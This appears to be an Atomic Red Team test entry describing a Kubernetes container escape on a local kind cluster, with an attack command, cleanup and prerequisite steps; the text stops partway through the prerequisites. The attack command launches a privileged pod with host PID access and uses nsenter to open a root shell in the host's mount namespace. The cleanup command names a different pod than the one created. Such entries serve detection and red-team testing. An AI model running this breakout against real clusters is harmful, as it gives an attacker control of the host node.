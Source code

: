 Additional Details:
- https://twitter.com/mauilion/status/1129468485480751104
- https://securekubernetes.com/scenario_2_attack/

**Supported Platforms:** Containers


**auto_generated_guid:** 0b2f9520-a17a-4671-9dba-3bd034099fff






#### Attack Commands: Run with `sh`! 


```sh
kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

#### Cleanup Commands:
```sh
kubectl --context kind-atomic-cluster delete pod atomic-escape-pod
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
sudo systemctl status docker
```
##### Get Prereq Commands:
```sh
sudo systemctl start docker
```
##### Description: Verify kind is in the path.
##### Check Prereq Commands:
```sh
which kind
```
##### Get Prereq Commands:
```sh
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.10.0/kind-linux-amd64
chmod +x ./kind
mv kind /usr/bin/kind
```
##### Description: Verify kind-atomic-cluster is created
##### Check Prereq Commands:
```sh
sudo kind get clusters
```
##### Get Prereq Commands: